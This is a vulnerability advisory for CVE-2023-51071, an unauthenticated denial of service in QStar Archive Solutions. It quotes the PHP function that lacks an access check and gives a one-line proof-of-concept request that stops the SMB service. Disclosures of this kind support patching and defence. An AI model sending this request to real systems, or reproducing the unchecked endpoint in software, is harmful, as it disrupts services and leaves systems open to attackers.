 ## CVE-2023-51071

### Description
An access control issue in QStar Archive Solutions Release RELEASE_3-0 Build 7 Patch 0 allows unauthenticated attackers to arbitrarily disable the SMB service on a victim's Qstar instance by executing a specific command in a link.

### Vulnerability Type
Unauthenticated Denial Of Service

### Vendor of Product
QStar

### Affected Product Code Base
QStar Archive Solutions - Release RELEASE_3-0 Build 7 Patch 0

### Exploitation
An attacker may execute a specifically crafted link to stop the SMB service.

### PoC

> Vulnerable code - /main.php
```php
function do_smbcmd()
{
	$s = $_GET['s'];

	if (($s == 'start')
			|| ($s == 'stop')
			|| ($s == 'restart')
			|| ($s == 'reload'))
	{
		$result = sys_smb_start($s);

		if ($result === true)
			echo "0";
		else
			echo gettype($result) . "-Error ($result->errno): $result->errmsg";

		return;
	}

	echo "Illegal command.";
}
```

As shown above, no access controls exist, we can leverage the stop command as an unauthenticated user to stop the server.

`/do_smbcmd?s=stop`